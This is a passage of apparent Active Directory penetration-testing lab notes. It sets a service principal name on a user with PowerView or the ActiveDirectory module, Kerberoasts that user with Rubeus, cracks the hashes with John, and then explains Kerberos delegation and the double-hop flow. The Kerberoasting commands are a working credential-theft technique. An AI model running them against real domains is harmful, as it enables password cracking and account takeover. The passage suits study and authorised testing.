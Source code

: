 Using Powerview, see if the user already has a SPN:
´´´powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname
´´´

Using ActiveDirectory module:
´´´powershell
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
´´´

Set a SPN for the user (must be unique for the domain)
´´´powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
´´´

Using ActiveDirectory module:
´´´powershell
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
´´´

Kerberoast the user:
´´´powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
´´´


# Kerberos Delegation

Only way to double hoping is:
´´´
- Explicit Credentials
- CredSSP
- Delegation
´´´

- Kerberos Delegation allows to **reuse the end-user credentials to access resources hosted on a different server**.
- This is typically useful in multi-tier service or applications where Kerberos Double Hop is required.
- For example, users authenticates to a web server and web server makes requests to a database server. 
- The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account.

> Please note that, for the above example, the service account for web service must be trusted for delegation to be able to make requests as a user.

- A user provides credentials to the DomainController.
- The DC returns a TGT.
- The user requests a TGS for the web service on Web Server.
- The DC provides a TGS.
- The user sends the TGT and TGS to the web server.
- The web server service account use the user's TGT to request a TGS for the database server from the DC.
- The web server service account connects to the database server as the user.
